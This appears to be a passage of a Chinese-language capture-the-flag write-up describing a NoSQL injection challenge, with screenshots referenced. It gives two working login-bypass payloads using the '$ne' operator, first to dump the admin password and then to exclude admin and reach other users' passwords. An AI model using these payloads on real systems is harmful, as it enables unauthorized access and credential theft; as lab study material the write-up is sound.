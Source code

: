 同样是

```
username[$ne]=1&password[$ne]=1
```

![image-20250218225117048](../assets/image-20250218225117048.png)

继续用上一题的 payload，返回 admin 的密码，但是这次的密码里没有 flag

可能flag在其他用户的密码里，我们禁用admin

```
username[$ne]=admin&password[$ne]=1
```

![image-20250218225555688](../assets/image-20250218225555688.png)

